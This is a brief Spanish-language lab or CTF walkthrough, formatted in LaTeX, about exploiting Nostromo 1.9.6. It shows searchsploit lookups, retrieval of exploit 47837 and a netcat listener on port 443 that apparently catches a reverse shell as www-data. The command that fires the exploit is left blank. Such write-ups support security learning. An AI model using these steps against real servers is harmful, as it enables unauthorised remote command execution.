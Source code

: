 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
Checkeamos si existe un exploit relacionado con \textbf{nostromo 1.9.6}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ nostromo }
\end{Highlighting}
\end{Shaded}

Hay un script en Python que permitiria hacer execucion de commandos. Nos traemos el script en el repertorio de trabajo.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -m 47837}
\FunctionTok{mv}\NormalTok{ 47837.py nostromo_exploit.py}
\end{Highlighting}
\end{Shaded}

Analizando el script con \texttt{cat}, vemos como se uza el exploit. Intentamos reproduzir los passos antes de crearnos nuestro
proprio script.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En una terminal

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  En otra terminal

\begin{Shaded}
\end{Shaded}
\end{enumerate}

Se ve \texttt{www-data} en la primera terminal.

Ya podemos crearnos el script.

\hypertarget{vuln-exploit-gaining-access-1}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-1}}
\end{document}
